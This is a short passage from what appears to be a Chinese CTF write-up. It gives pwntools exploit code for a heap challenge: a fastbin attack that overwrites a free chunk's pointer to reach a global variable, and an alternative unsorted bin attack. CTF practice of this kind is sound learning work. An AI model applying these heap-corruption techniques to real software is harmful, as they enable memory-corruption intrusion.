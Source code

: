 ```python
def edit(size, index, content):
	p.recvuntil('Your choice :')
	p.sendline('2')
	p.recvuntil('Index :')
	p.sendline(str(index))
	p.recvuntil('Size of Heap : ')
	p.sendline(str(size))
	p.recvuntil('Content of heap : ')
	p.sendline(content)
	
def delete(index):
	p.recvuntil('Your choice :')
	p.sendline('3')
	p.recvuntil('Index :')
	p.sendline(str(index))

def leet():
	p.recvuntil('Your choice :')
	p.sendline('4869')
	p.recv()

add(0x10, 'teapot')
add(0x10, 'a'*0x10)
add(0x60, 'b'*0x10)
pause()
delete(2)
payload1 = b'e'*0x10 + p64(0) + p64(0x71) + p64(0x6020ad)
edit(len(payload1), 1, payload1)
add(0x60, 'c'*(0x60))
add(0x60, 'a'*(0x6020c0-0x6020ad-0x10)+p32(0xffff))
leet()
p.recv()
p.recv()
p.recv()
```
Unsorted Bin Attack版
```python
add(0x10, 'c'*0x10)
add(0x80, 'b'*0x10)
add(0x10, 'a'*0x10)

delete(1)
payload = 'a'*0x10 + p64(0) + p64(0x91) + p64(0) + p64(magic-0x10)
edit(len(payload), 0, payload)
add(0x80, 'teapot')
```

![image-20210827000220767](C:\Users\xieyucheng\AppData\Roaming\Typora\typora-user-images\image-20210827000220767.png)



没有这个文件，虚晃一枪。
